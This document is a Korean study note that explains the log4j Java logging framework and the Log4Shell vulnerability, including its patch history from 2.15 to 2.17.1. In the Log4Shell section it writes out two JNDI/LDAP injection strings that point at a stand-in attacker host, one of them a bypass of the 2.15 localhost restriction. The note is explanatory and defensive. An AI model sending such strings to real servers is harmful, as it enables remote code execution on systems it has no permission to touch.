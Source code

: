 # log4j와 Log4Shell
## log4j
- 자바 진영에서 사용하는 로그 기록 프레임워크
- 속도에 최적화 되어 있으며 Thread-safe 하다.
- Trace, Debug, Info, Warn, Error, Fatal의 6가지 장애 레벨을 사용
- 출력을 파일, 콘솔, 원격서버, 심지어 이메일로까지 보낼 수 있음
- 한국 정부에서 사용하는 전자정부프레임워크에서도 사용중임

### 구조
- Logger: 로깅 메세지를 Appender에 전달, 로그레벨을 가지고 있어 로그의 출력 여부를 결정
- Appender: 로그의 출력 위치를 결정(예: 파일, 콘솔, DB)
- Layout: 어떤 형식으로 출력할 것인지 
  - 예를 들어 ```<param name="ConversionPattern" value="%-5p: %c - %m%n" />``` 라는 xml 태그는 순서대로 로그레벨, 클래스 구조, 로그내용을 출력한 뒤 개행하라는 뜻이다.

## Log4Shell
- 기본적으로는 RCE(원격 코드 실행)으로 인해 발생하는 보안 취약점이다
- Log4j 문법에서는 JNDI와 LDAP를 사용할 수 있다
  - JNDI는 자바 네이밍 디렉토리 인터페이스로, 디렉토리를 통해 자바 객체형태의 데이터를 찾을 수 있게 해준다
  - LDAP는 Lightweight Directory Access Protocol의 약자로, 네트워크상에서 조직이나 개인, 파일, 디바이스 등을 찾아볼 수 있게 해주는 소프트웨어 프로토콜이다.
- 이 둘을 조합하여 ${jndi:ldap://evilhost.com/a} 같은 식으로 사용자가 보낸 문자열을 로그에 넣으면 Log4j는 이 URL을 호출해버림
- 즉, 서버에서 원격으로 코드를 실행시켜버릴 수 있는 취약점인 것
- 예를 들어, 마인크래프트의 채팅창에 위와 같은 방식의 채팅을 치면, 서버에 원격으로 코드를 실행시킬 수 있음
- 이와 같은 문제를 애플, 테슬라 같은 대기업과 각국 전자 정부 시스템에서 겪었음

### 사건 전개
- 2021년 11월 24일, 버전 2.14에서 제로데이 이슈로 발견됨
- 버전 2.15이 공개되었지만, DoS(서비스 거절) 공격에 대한 취약점이 여전히 존재했고, RCE를 완전히 막지 못함
  - 유저의 URL 호출을 localhost로 한정했으나 ${jndi:ldap://127.0.0.1#evilhost.com:1389/a}같은 식으로 여전히 다른 서버의 URL을 호출 할 수 있었음
- 버전 2.16이 공개되었지만 이번엔 무한 재귀 문제가 발생할 수 있게 되었음
  - 이로인해 스택 오버플로가 발생하여 서버가 다운될 수 있었음
- 버전 2.17이 공개되었지만 새로운 취약점이 발견됨
- 현재 버전 2.17.1 이상을 사용할 경우 안전할 것으로 사료됨
- 참고로 현재 아직도 업데이트를 안한 경우에 사용하는 1.2버전에서도 같은 이슈가 존재함
  - 이 경우엔 JMSAppender를 사용하지 않도록 하면 안전함
